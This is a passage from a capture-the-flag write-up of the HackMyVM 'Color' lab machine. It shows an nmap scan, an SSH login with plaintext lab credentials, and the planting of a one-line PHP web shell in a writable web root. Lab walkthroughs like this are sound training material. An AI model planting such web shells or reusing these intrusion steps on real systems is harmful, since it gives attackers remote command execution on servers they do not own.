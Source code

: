 ```
Nmap scan report for 192.168.0.101
Host is up (0.00057s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:DE:99:3B (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```
Boom!!! we hit the ssh port Open 😜... now let's ssh using the creds we found earlier. `pink:Pink4sPig$$`.


```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Color]
└─$ ssh pink@192.168.0.101                           
The authenticity of host '192.168.0.101 (192.168.0.101)' can't be established.
ED25519 key fingerprint is SHA256:Dgjoo3i4uigkHRTkQY5MGbxQ/VGwXISMlIp1j3IV5ZU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.0.101' (ED25519) to the list of known hosts.
Linux color 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Feb 11 19:16:48 2023 from 192.168.1.86
pink@color:~$ id 
uid=1000(pink) gid=1000(pink) groups=1000(pink),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
pink@color:~$ 
```
bull's eye we are in. 


## Privilege Escalation 

```
pink@color:/var/www/html$ ls -al
total 828
drwxrwxrwx 2 www-data www-data   4096 Feb 11 19:29 .
drwxr-xr-x 3 root     root       4096 Jan 27 20:21 ..
-rw-r--r-- 1 www-data www-data    295 Jan 27 20:43 index.html
-rw-r--r-- 1 www-data www-data  10701 Jan 27 20:22 index.html.bak
-rw-r--r-- 1 www-data www-data 821574 Jan 27 20:34 seized.png
pink@color:/var/www/html$ id 
uid=1000(pink) gid=1000(pink) groups=1000(pink),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth)
pink@color:/var/www/html$ nano shell.php
pink@color:/var/www/html$ cat shell.php 
<?php system($_GET["cmd"]); ?>
pink@color:/var/www/html$
```
uploaded a php web shell in the `/var/www/html` directory. now let's check it out using the browser.
